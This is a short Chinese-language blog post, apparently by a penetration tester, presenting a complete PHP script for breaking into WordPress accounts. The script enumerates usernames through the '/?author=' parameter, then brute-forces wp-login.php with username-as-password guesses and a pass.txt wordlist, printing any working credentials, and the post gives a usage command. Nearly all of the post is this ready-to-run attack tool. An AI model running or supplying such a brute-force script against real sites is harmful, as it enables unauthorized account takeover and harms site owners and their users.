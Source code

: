 # 跑wordpress用户密码脚本

在做渗透测试的时候，有时候会遇到一个wordpress博客，如果版本比较新，插件也没有漏洞的话，可以爆破用户名密码来尝试下。

大脑混沌情况下写的，有bug欢迎提出，由于是php的所以跑起来比较慢，下次发包还是调用命令结合hydra来爆破。

原理是通过URL`/?author=`遍历获取用户名，然后先跑用户名与密码相同的用户，再调用同目录下pass.txt中的密码文件进行爆破。

默认获取前10个用户，可自行修改。

使用方法：

```
php wordpress.php http://www.test.com

``````
<?php

set_time_limit(0); 
$domain = $argv[1];

//获取用户名
for ($i=1; $i <= 10; $i++) {

    $url = $domain."/?author=".$i;
    $response = httprequest($url,0);
    if ($response == 404) {
        continue;
    }
    $pattern = "/author\/(.*)\/feed/";
    preg_match($pattern, $response, $name);
    $namearray[] = $name[1];
}

echo "共获取用户".count($namearray)."名用户\n";

echo "正在破解用户名与密码相同的用户：\n";

$crackname = crackpassword($namearray,"same");

$passwords = file("pass.txt");

echo "正在破解弱口令用户：\n";

if ($crackname) {
    $namearray = array_diff($namearray,$crackname);
}

crackpassword($namearray,$passwords);

function crackpassword($namearray,$passwords){
    global $domain;
    $crackname = "";
    foreach ($namearray as $name) {
        $url = $domain."/wp-login.php";
        if ($passwords == "same") {
            $post = "log=".urlencode($name)."&pwd=".urlencode($name)."&wp-submit=%E7%99%BB%E5%BD%95&redirect_to=".urlencode($domain)."%2Fwp-admin%2F&testcookie=1";
            $pos = strpos(httprequest($url,$post),'div id="login_error"');
            if ($pos === false) {
                echo "$name $name"."\n";
                $crackname[] = $name;
            }
        }else{
            foreach ($passwords as $pass) {
                $post = "log=".urlencode($name)."&pwd=".urlencode($pass)."&wp-submit=%E7%99%BB%E5%BD%95&redirect_to=".urlencode($domain)."%2Fwp-admin%2F&testcookie=1";
                $pos = strpos(httprequest($url,$post),'div id="login_error"');
                if ($pos === false) {
                    echo "$name $pass"."\n";
                }
            }
        }
    }
    return $crackname;
}


function httprequest($url,$post){
    $ch = curl_init(); 
    curl_setopt($ch, CURLOPT_URL, "$url"); 
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); 
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION,1);

    if($post){
        curl_setopt($ch, CURLOPT_POST, 1);//post提交方式
        curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
    }

    $output = curl_exec($ch); 
    $httpcode = curl_getinfo($ch,CURLINFO_HTTP_CODE);
    curl_close($ch);


    if ($httpcode == 404) {
        return 404;
    }else{
        return $output;
    }
}
?>
```